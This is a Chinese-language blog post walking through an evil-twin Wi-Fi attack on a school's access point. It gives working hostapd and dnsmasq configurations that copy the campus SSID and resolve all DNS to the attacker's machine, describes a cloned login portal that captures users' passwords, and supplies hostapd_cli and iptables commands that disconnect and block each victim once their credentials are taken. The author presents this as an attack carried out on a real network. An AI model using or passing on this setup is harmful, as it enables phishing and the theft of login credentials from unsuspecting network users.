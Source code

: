 title:WIFI 热点欺骗
Date: 2014-11-23 15:21
Modified: 2014-11-23 15:21
Category: 技术改变生活 
Tags: WIFI, Linux
Slug: real-attack-show-wifi-vulnerability
Authors: nullne
Summary:
_很久以前看过一篇关于WIFI脆弱性的[介绍](http://fex.baidu.com/blog/2014/04/traffic-hijack/)(找了好久终于被我找到了)，其中有一部分讲的是由于本身协议的弱点，相同 ssid 的热点会被合并为同一个，至于用户最终连接哪个热点取决于他所能接收到的信号强度。不知道此刻各位看官脑洞有没有大开？_

_俗话说杀生不如宰熟，所以直接就向学校 ap 下手了。提前声明几个全局变量：_

```
ssid: NICESHOT
os： ubuntu
```


###简单部署
####用 hostapd 建立热点
>“**hostapd** is a user space daemon for access point and authentication servers. “

```
sudo apt-get install hostapd
```
更改配置文件 _/etc/hostapd-hotspot.conf_ 如下：
```
# WiFi Hotspot
interface=wlan0
driver=nl80211
#Access Point
ssid=NICESHOT
hw_mode=g
# WiFi Channel:
channel=1
#macaddr_acl=0
auth_algs=1
wmm_enabled=0
#ignore_broadcast_ssid=0
#wpa=3
#wpa_passphrase=1
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=TKIP
#rsn_pairwise=CCMP
ctrl_interface=/var/run/hostapd
```
可能还需要更改 _/etc/default/hostapd_ 为
```
DAEMON_CONF=/etc/hostapd/hostapd.conf
```
然后测试配置文件`hostapd -d /etc/hostapd-hotspot.conf`,  没有什么问题的话就可以启动服务了
```
service hostapd start
```
####微型 DNCP & DNS -- dnsmasq
>Dnsmasq is a free software DNS forwarder and DHCP server for small networks. It is considered to be easily configured, with low system resource usage.

```
sudo apt-get install dnsmasq
```
更改配置文件 _/etc/dnsmasq.conf_
```
log-facility=/var/log/dnsmasq.log
address=/#/192.168.1.1
interface=wlan0                                                                             
dhcp-range=192.168.1.20,192.168.1.254,12h
no-resolv 
```
然后比较关键的是配置 **wlan0** IP 地址 `ifconfig wlan0 192.168.1.1`。

稍微总结一下，到此为止，我们做了这么些事情：创建 WFIFI 热点，监听 **wlan0** 口，然后通过配置DHCP给所有连接到此 AP 的终端分配IP地址。另外上面的这条配置`address=/#/192.168.1.1`，将所有地址解析到我们的电脑 IP。
####搭建服务器
此处就不详说了，最终达到的效果是访问 `192.168.1.1`是我们的钓鱼网站。

因为校园网需要登陆，也就是说连接校园 AP 之后将所有 HTTP 页面跳转到网关登陆界面。所以我们也部署一个一模一样的登陆网关，然后所有连接的用户跟往常一样登陆网关，神不知鬼不觉得就把账号密码泄露过来了。稍后我会分享此处的简单代码 DEMO 到 GitHub。
###进阶
当然不能停止在这么简陋的东西上面，我们需要更进一步。
####粗暴的强制下线
毕竟我们只有一个无线网卡，用作 AP 之后就不能接入其他网络了，环境也不允许拉一根网线，用户登录网关之后根本没办法继续上网，很快你的伪 AP 就会被发现。所以我们强制所有登录网关，也就是被我们窃取密码的用户离线。
```
hostapd_cli deauthenticate 38:bc:1a:88:12:61                                                     
iptables -A INPUT -m mac --mac-source 38:bc:1a:88:12:61 -j DROP
```
第一句强制用户离线，之前在配置 hostapd 的时，这句就是为了达到这个目的 `ctrl_interface=/var/run/hostapd`，第二句将所有该设备的请求丢弃。这就是当一个人丧失所有利用价值之后的下场！
####配置更为合理的 iptables（还没有实现）
当然，前提是我们自己的电脑还可以通过其他口，比如 _eth0_，访问正常网络。

通过配置合理强大的 **iptables**,精心布局，我们不仅仅获取网关密码这么简单的并且还需要特别严格苛刻的场景的蛋糕。拭目以待。。。
###思考
###后记
####伤敌一百，自损三千
因为自己的装备跟技术很挫，在配置之前那些东西的时候碰到了一些问题，险些出师未捷身先死。

在 ubuntu 下，`service networking restart`,然后你就各种问题爽翻天
- 现在，至少目前为止插上网线之后还需要 `ifup eth0` 才能通过有线上网
- 现在，至少目前为止我连接 WIFI 的时候需要这么做（运气好的话差不多能连接上）
```
ifup wlan0   #up the wlan port 
iwlist wlan0 scan #list availabel wifi ssid
iwconfig wlan0 essid "NICESHOT"  #no password
iwconfig wlan0 ssid "NICESHOT" key password   #with password
dhcpclient wlan0   #get ip via dhcp 
```
- 电脑里面出现了奇怪的端口:wlan0:avahi
- 系统自带的 network-manager 罢工了
- 其他未知错误待续
